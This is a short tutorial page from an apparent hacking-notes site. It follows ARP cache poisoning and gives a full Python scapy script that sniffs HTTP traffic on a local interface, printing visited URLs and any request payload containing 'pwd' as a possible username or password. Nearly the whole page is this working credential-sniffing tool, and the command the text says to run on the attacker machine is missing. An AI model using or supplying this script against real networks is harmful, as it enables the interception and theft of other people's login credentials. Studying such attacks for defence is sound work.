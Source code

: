 ```yaml
---
title: "HTTP credentials sniffing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff all HTTP requests. This time using scapy's buildin sniffing function.   
In the code we are checking for HTTP credentials.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

Full code:  

```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load
        keywords = ["pwd"]
        for keyword in keywords:
            if keyword in load:
                return load

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        url = get_url(packet)
        print("[+] HTTP Request >> " + url)

        login_info = get_login_info(packet)
        if login_info:
            print("\n[+] Possible username/password > " + login_info + "\n")



sniff("enp7s0")
```
